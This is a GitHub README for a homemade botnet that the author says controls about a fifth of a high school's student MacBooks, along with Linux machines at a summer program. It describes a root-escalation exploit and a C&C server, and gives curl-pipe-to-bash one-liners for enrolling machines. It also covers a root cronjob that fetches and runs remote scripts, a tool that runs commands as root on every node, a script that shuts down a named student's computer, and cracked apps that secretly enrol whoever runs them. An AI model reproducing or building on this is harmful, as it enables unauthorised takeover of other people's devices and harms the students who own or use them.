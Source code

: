 # net
Some code which I use to run a rudimentary botnet which controls roughly 20% of the MacBooks my school provides to students. I've also used this code to take over Kali Linux computers and Raspberry Pis at a summer program.

## Where this code works
* MacBook Airs at George Mason High School or others running Mac OS X 10.11.6 and immediately preceding versions. Some assumptions were made about configuration for Macs since the code was written specifically for GMHS MacBook Airs. The join script will exploit into a root shell to deliver its payload automatically, thus root access is not necessary.
* Debian-based Linux distributions, originally Kali Linux and Raspbian. Should work on other distros, although the user must be logged in as root to the GUI, which they only usually are on Kali, or you must otherwise have root access.

I do not endorse the use of this code for malicious purposes.

## How it works
### Server
The botnet is controlled by a simple Python script which opens a socket on port `2043`. Currently the server simply listens for incoming connections and accepts data on new nodes and updates to node data, which are then stored in the file `nodes.txt`.

### Joining
For Macs, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `jm.sh` allows one-run joining: it will download the exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically, which will handle joining the botnet. This mitigates the need to manually download the exploit, mark it as executable, then run and remove it.

Some code to use a Rubber Duck USB as a delivery mechanism for Macs can be found [here](https://github.com/ErikBoesen/duck).

For Kali or other Debian-based Linux, there's just one script, `jl.sh`, which must be executed as root or as a user with root privileges. In addition to the usual activities, it will add a root cronjob to regularly curl a script from my website and run it. Unless necessary, that script, `linuxupdate.sh`, will simply check if the computer's local IP has changed, and if so, communicate as such to the server.

Some code to use a Rubber Duck USB as a delivery mechanism for Linux can be found [here](https://github.com/ErikBoesen/duck-kali).

Here are simple one-liners to join the botnet (I recommend purchasing a simple domain for easy C&C):

Mac:
```sh
curl -L [domain]:[port]/mac/join.sh |bash
```
Linux:
```sh
curl -L [domain]:[port]/linux/join.sh |bash
```

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command as root. You can also run `up.sh` to view which/how many nodes are online. `die.sh` works strictly on Macs, and will kill open applications, turn off the screen, and initiate shutdown on the computer owned by the student with the provided username. Note: Don't do this.

### Apps
The `apps` directory contains some cracked versions of various applications which are blocked on GMHS MacBooks. These versions will work on our MacBooks, but they will also join the computer that runs them to the botnet.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
